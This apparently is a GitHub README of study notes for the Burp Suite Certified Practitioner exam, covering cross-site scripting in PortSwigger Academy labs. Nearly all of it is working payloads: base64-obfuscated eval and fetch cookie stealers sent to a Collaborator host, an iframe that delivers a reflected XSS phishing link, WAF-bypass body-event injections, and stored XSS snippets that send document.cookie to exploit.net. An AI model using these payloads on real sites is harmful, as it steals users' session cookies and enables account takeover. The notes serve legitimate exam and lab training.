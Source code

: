 
# Burp-Suite-Certified-Practitioner-Exam-Study
PortSwigger Academy - Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

+ [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
+ [PayloadsAllTheThings (XSS)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-htmlapplications)  

### Cookie Stealers

### Reflected XSS in Search with WAF
>Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://Collaborator.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```  

+ Using the **eval()** method evaluates or executes an argument. 
+ Using **atob()** or **btoa()** is function used for encoding to and from base64 formated strings.
+ If **eval()** being blocked then Alternatives:
  + setTimeout("code")
  + setInterval("code)
  + setImmediate("code")
  + Function("code")()
  

![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)  

>Hosting the **IFRAME** with eval() and fetch() payload on web exploit server, respectively base64 encoded and URL encoded.  

```html
<iframe src="https://TARGET.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%4f%44%4d%35%59%32%74%30%64%54%64%31%62%32%64%6c%5a%47%30%32%59%54%46%72%61%6e%56%35%4d%32%39%31%64%47%78%36%59%32%34%79%59%6e%49%75%62%32%46%7a%64%47%6c%6d%65%53%35%6a%62%32%30%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
![(Deliver reflected xss to steal victim cookie.](deliver-reflected-xss-to-steal-victim-cookie.png)

### Reflected XSS in Search with blocked Tags
>Reflected XSS into HTML context with most tags and attributes blocked Bypass WAF
<sup>Body and event **'onresize'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
<sup>Body and event **'onpopstate'** is only allowed</sup>
```JavaScript
?search=%22%3E%3Cbody%20onpopstate=print()>
```
[onpopstate event (XSS)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#onpopstate)  

[Methodology to identify allowed tags and events (PortSwigger Lab: Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  

#### URL and Base64 online encoders and decoders  
[URL Decode and Encode](https://www.urldecoder.org/)  
[BASE64 Decode and Encode](https://www.base64encode.org/)    
  
### Stored XSS

#### Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

#### Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

#### Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

#### Fetch API Cookie Stealer in blog comment
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
